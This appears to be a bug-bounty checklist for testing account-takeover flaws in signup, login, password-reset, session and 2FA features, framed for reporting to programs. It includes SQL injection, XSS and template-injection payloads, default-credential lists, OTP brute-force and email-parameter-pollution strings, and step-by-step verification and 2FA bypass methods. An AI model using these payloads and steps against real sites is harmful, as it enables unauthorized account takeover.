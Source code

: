 <details> 
## <summary>signup vulnerabilities</summary>
    
    0- check in login page or register page http or https 
    (insecure data transfer ) 
    	-------------------------------------------------------------
    1- if there is no verification code or confirmation then 
    signup with admin@~~site.com~~ and report pre-account takeover vulnerability 
	-------------------------------------------------------------
    2- a- create account with hacker@gmail.com for example 
    	 b- confirmation will reach you 
    	 c- don't click on it 
    	 d- login to your account and change the email to victim@gmail.com 
    	 e- go back the link in step b and click on it 
    	 f- if the victim@gmail.com was verified successfully then 
    	 (misconfiguration lead to verification bypass  vulnerability) 
    	-------------------------------------------------------------
    3- while registertion put xss payloads inside username , name ....
        -------------------------------------------------------------
    4- create account with victim@gmail.com 
    	- don't verify the account and don't click on verification link 
    	- login to the site if you can 
    	- go to settings and see if there is 2 factor authentication 
    	- enable 2 factor authentication without confirming account 
    	- report vulenrability (enable 2fa without confirmaiton lead to pre-account tkaeover)
        -------------------------------------------------------------
    5- create account with victim@gmail.com ,  don't click on the link
    	- login to victim@gmail.com 
    	- change the email address to hacker@gmail.com 
    	- click on confimation link send to your email hacker@gmail.com 
    	- go back and change email to victim@gmail.com and observe it was verified succcessfully
    	(verification bypass )
       -------------------------------------------------------------
    6- Create account1 but don't verify
    	- Then create acount2 wiht the same email but different method like google login
     	-  See if can access any data
    -------------------------------------------------------------
    7- SQLI in Email Field

	{"email":"asd'a@a.com"} --> Not Valid
	{"email":"asd'or'1'='1@a.com" }  --> valid
	{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"} --> Not Valid
	{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"}  -> Valid -->  Delay: 7,854 milis
	{"email":"\\"a'-IF(LENGTH(database())=10,SLEEP(7),0)or'1'='1\\"@a.com"} --> {"code":0,"status":200,"mes sage":"Berhasil"} --> Valid --> Delay 8,696 milis
	{"email":"\\"a"-IF(LENGTH(database())=11,SLEEP(7),0)or'1'='1\\"@a.com"} ---> {"code":0,"status":200,"mes sage":"Berhasil"} ---> Valid --> No delay
	-------------------------------------------------------------
	- Try OAuth login with the same email account twice
 	- one from google and the other from the deafault signup function
  	- Business logic error
	-------------------------------------------------------------
 	1. Create an account with a non-existing phone number
	2. Intercept the Request in BurpSuite
	3. Send the request to the repeater and forward
	4. Go to Repeater tab and change the non-existent phone number to your phone number
	5. If you got an OTP to your phone, try using that OTP to register that non-existent number 
	-------------------------------------------------------------
	- Manipulate the JSON request
 		{
	        "code":[
	                "1000",
	                "1001",
	                "1002",
	                ...
	                "9999"
	                ]
		}
	-------------------------------------------------------------
 	-Weak Password Policy	
	     - check if program accept 
		- weak passwords like 123456
		- username same as email address
		- password same as email address
		- improper implemented password reset and change features
	-------------------------------------------------------------
 	- 








  
  

 
      
</details>

-----------------------------------------------------------------------------


<details>
## <summary>login vulnerabilities </summary>

	 1- login over http not https 	( insecure data transfer )
	
	 3- try default credentials (test:test) (admin:admin) (admin:password) (kali:kali) (admin:123)
	  (admin:default) (root:root) (root:toor) (admin:kali) (kali:root) (admin:123456789)
	
	 4- try to inject sql injection in username as admin' or 1=1; -- -
	
	 5- try to make response manipulation  to bypass login page
	
	 6- use the request and send it to sqlmap to test if there is sql injection or not
	
	 7- try to inject xss payloads in username as <svg/onload=confirm()>
	
	 8- try to inject template injection inside username as {{9*9}} and if printed 81 then vulnerable to template injection
	
	 9- view source code of the page from CTRL+U to see if leaked credentials

 </details>

-----------------------------------------------------------------------------



  <details>
## <summary>reset password vulnerabilities</summary>
    
    check link of reset password in email if http not https
    check reset request code can be leaked in request or response
    no rate limit (Email bombing)
    ------------------------------------
    1- ask reset password (from out) don’t press on it ⇒ 
    2- login to account ⇒ change the email and verify ⇒ click on reset link
    3- if password changed through reset password link (bug)
    -----------------------------------
    1- ask reset password (from out) don’t press on it ⇒
    2- login to account ⇒ change the password ⇒
    3- click on reset link ⇒ if password changed through reset password link (bug)
    --------------------------------------
     brute force otp 
    --------------------------------------
     reset password does not end live sessions 
    --------------------------------------
     	1- Open up Firefox and Burp Suite
	2- Visit the forgot password page 
	3- Enter the victim's email address and click Reset and Email Password
	4- Intercept the HTTP request in Burp Suite & change the Host Header to your malicious site / server.
    --------------------------------------
	- check if the password reset endpoint is vulnerable to IDOR
	-  check if the password reset endpoint is vulnerable to Host Header injection
 	- test for HTTP parameter Pollution (HPP)
    --------------------------------------
	- Test for SQLI in the reset pass send function
    --------------------------------------
	- Check for weak Cryptography in Password Reset 
	--------------------------------------
	# parameter pollution
	email=victim@mail.com&email=hacker@mail.com
	
	# array of emails
	{"email":["victim@mail.com","hacker@mail.com"]}
	
	# carbon copy
	email=victim@mail.com%0A%0Dcc:hacker@mail.com
	email=victim@mail.com%0A%0Dbcc:hacker@mail.com
	
	# separator
	email=victim@mail.com,hacker@mail.com
	email=victim@mail.com%20hacker@mail.com
	email=victim@mail.com|hacker@mail.com
	#No domain:
	email=victim
	#No TLD (Top Level Domain):
	email=victim@xyz
	#change param case 
	email=victim@mail.com&Email=attacker@mail.com
	email@email.com**,**victim@hack.secry  
	email@email**“,”**victim@hack.secry  
	email@email.com**:**victim@hack.secry  
	email@email.com**%0d%0a**victim@hack.secry  
	**%0d%0a**victim@hack.secry  
	**%0a**victim@hack.secry  
	victim@hack.secry**%0d%0a**  
	victim@hack.secry**%0a**  
	victim@hack.secry**%0d**  
	victim@hack.secry**%00**  
	victim@hack.secry**{{}}**
	--------------------------------------
	- Ask for reset password and visit the link sent to your email
	- Click on any social media icon on the page & intercept the request
 	- lock if the token link in the refere header or the request
  	- Paswword reset link leak via referrer
    	It allows the person who has control of site to change the user’s password (CSRF attack), because this person knows reset password token of the user.
	--------------------------------------
 	- 




       
</details>

-----------------------------------------------------------------------------

<details>
	<summary>OAuth</summary>

	- 
  
</details>


-----------------------------------------------------------------------------

<details>
## <summary>session vulnerabilities</summary>
  	
	1- login to your account with firefox and chrome
		- change the password in firefox 
		- observe the account in chrome is still logged in and didn't logout
		- Broken session Management 
	
	2- login to your account with firefox and chrome 
		- enable 2FA in firefox 
		- reload the page in chrome and observe session is still valid 
	
	3- login to your account and update anything 
		-  intercept the request with burpsuite 
		- send the request to repeater
		- logout from your account 
		- use the request in repater to update and if still valid  (vulnerability)
	
	4- ask for reset password 
		- don't click on the link reached you 
		- login with your username and password 
		- change the password of the email 
		- logout from your account and then use the link in step 1 
		- if still valid then (Vulnerability)
	
	5-logout from your account 
		- click on (Alt+Left-arrow) button or <--
		- observe the session and profile data is still found 
		- broken cache vulnerability
	
	6- when updating email address 
		- check if OTP is sent to existing email not the new email 
		- broken function lead to verification bypass
	
	7- create account with email A => victim 
		- update the email to B => hacker then verify it -> vierfy your account 
		- update email back to A => victim 
		- if shown as verified then vulnerability 
	
	8- verifiaction bypass 
		- account with victim@gmail.com => don't verify it 
		- update account email to hacker@gmail.com
		- once you clicked the link , if verified victim@gmail.com then vuln  
	
</details>

-----------------------------------------------------------------------------

<details>
	<summary>2FA</summary>

	- Request a 2FA code from Attacker Account.
	- Use this valid 2FA code in the victim 2FA  Request and see if it bypass the 2FA Protection.
	 ----------------------------------------------------
	- After sumbit the verfiy code 
 	- Change the attacker cookie to victim-user cookie
	----------------------------------------------------
 	- Try Response & Status code manipulation 
  	- if "Success":"false" Change it to true
   	- if the response 4xx change it to 200 OK
	----------------------------------------------------
 	1. Request a 2FA code and use it
	2. Now, Re-use the 2FA code and if it is used successfully that's an issue.
	- Also, try requesting multiple 2FA codes and see if previously requested Codes expire or not when a new code is requested
	- Also, try to re-use the previously used code after long time duration say 1 day or more.
	----------------------------------------------------
 	- CSRF on 2FA disable feature
  	----------------------------------------------------
   	1. Directly Navigate to the page which comes after 2FA or any other authenticated page of the application.
	2. If there is no success, change the refer header to the 2FA page URL. This may fool  
	application to pretend as if the request came after satisfying 2FA Condition
	----------------------------------------------------
	- The 2FA code maybe leaked in the response or request
 	----------------------------------------------------
  	- while triggering the 2FA Code Request, 
		Analyze all the JS Files that are referred in the Response 
		to see if any JS file contain information that can help bypass 2FA code.
	----------------------------------------------------
	TOKEN
 		- try reuse used token
   		- use token to bypass another account
     		- Check for Leaked token
       	----------------------------------------------------
	- Lack of rate limit re-sending the code via SMS
	----------------------------------------------------
 	- Try Play with session expire
	----------------------------------------------------
	- Create account without verify it and enable 2FA (Valid Bug)
 	 ----------------------------------------------------
	1. As a user1, register, skip 2FA, copy the ID.
	2. Register an account user2, register, perform a 2FA request but with ID from user1.
	3. 2FA is enabled now on the account user1!
	4. Perform a request /api/2fa/verify with valid code and ID of user1.
	
	<https://hackerone.com/reports/810880>
	----------------------------------------------------
	1. Try Login to your account
	2. In 2FA Request resend the code
	3. If the old and new code is the same then there is an issue
	Impact: code that is not updated after a request new one makes it easier for a hacker to brute force or guess the code
	
	<https://github.com/bugcrowd/vulnerability-rating-taxonomy/issues/289>
    	----------------------------------------------------
	- Bypass 2FA with null or 000000 or Blanc
 	----------------------------------------------------
  	1. Using the same session start the flow using your account and the victim's account.
	2. When reaching the 2FA point on both accounts.
	3. complete the 2FA with your account but do not access the next part.
	4. Instead of that, try to access the next step with the victim's account flow.
	5. If the back-end only set a Boolean inside your sessions saying that you have successfully passed the 2FA you will be able to bypass the 2FA of the victim.
 	----------------------------------------------------
  	1. Use burp suite or another tool to intercept the requests
	2. Turn on and configure your MFA
	3. Login with your email and password
	4. The page of MFA is going to appear
	5. Enter any random number
	6. when you press the button "sign in securely" intercept the request POST auth.target.com/v3/api/login and in the POST message change the fields: "mode":"sms" by "mode":"email" "secureLogin":true by "secureLogin":false
	send the modification and check, you are in your account! It was not necessary to enter the phone code.
	
	<https://hackerone.com/reports/665722>
	----------------------------------------------------
	enter 2 wrong attempts in a short time
	this may leads to bypass the 2FA process
	
	<https://hackerone.com/reports/1747978>
	----------------------------------------------------
	
	- Remove the part of the cookie that is responsible for 2FA authentication
	
	https://hackerone.com/reports/2315420
	----------------------------------------------------
  	- 








 
</details>

-----------------------------------------------------------------------------

#### Random 
```
- CORS Misconfiguration to Account Takeover

- HTTP Request Smuggling to ATO
	https://hackerone.com/reports/737140
	https://hackerone.com/reports/740037

- in Profile section look for CSRF, CORS, Cache Deception, IDOR and many more

-Top ATO report in hackerone
	https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPACCOUNTTAKEOVER.md

- 
```
